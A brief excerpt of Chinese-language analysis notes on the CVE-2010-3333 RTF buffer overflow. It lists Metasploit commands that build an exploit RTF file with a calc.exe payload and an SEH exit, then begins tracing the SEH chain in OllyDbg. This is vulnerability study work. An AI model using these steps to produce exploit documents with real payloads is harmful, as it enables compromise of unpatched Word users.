我们生成一个劫持seh的样本来研究

```
msf > search cve-2010-3333
msf > use 0
msf > info
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 2
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME CVE_2010_3333_calc.rtf
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/exec 
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set CMD calc.exe
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set exitfunc seh
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
```

那我们先找SEH链

在OD数据窗口ctrl+G跟踪dword ptr fs:[0]

![image-20220720111856020](cve-2010-3333.assets/image-20220720111856020.png)

或者直接选择

![image-20220720111438848](cve-2010-3333.assets/image-20220720111438848.png)
